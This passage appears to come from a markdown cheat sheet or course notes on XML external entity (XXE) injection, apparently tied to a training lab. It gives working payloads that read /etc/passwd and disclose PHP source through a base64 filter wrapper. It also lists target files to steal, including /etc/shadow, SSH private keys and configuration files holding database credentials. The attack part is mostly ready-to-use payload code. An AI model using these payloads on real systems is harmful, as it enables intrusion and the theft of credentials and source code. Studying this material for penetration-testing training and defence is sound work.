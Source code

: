 **Vulnerability Indicators:**
- Entity value (`Inlane Freight`) appears in response
- Non-vulnerable apps show `&company;` as raw text
- XML parsing errors reveal parser type/version

### Basic File Disclosure Attacks

#### Reading System Files
**Target `/etc/passwd`:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY file SYSTEM "file:///etc/passwd">
]>
<root>
    <name>Test User</name>
    <email>&file;</email>
    <message>Test message</message>
</root>
```

#### Common Target Files
```bash
# Linux sensitive files
/etc/passwd           # User accounts
/etc/shadow          # Password hashes (if readable)
/etc/hosts           # Network configuration
/root/.ssh/id_rsa    # SSH private keys
/var/log/apache2/access.log  # Web server logs

# Windows sensitive files  
C:\Windows\System32\drivers\etc\hosts
C:\Users\Administrator\.ssh\id_rsa
C:\inetpub\logs\LogFiles\W3SVC1\

# Application files
/var/www/html/config.php     # Database credentials
/opt/tomcat/conf/tomcat-users.xml  # Tomcat users
```

### Reading Source Code

#### PHP Source Code Disclosure
**Problem:** Direct file inclusion breaks XML format
```xml
<!-- This fails - PHP code breaks XML -->
<!ENTITY source SYSTEM "file:///var/www/html/index.php">
```

**Solution:** PHP Filter Wrapper
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY source SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
<root>
    <name>Test User</name>
    <email>&source;</email>
    <message>Test message</message>
</root>
```
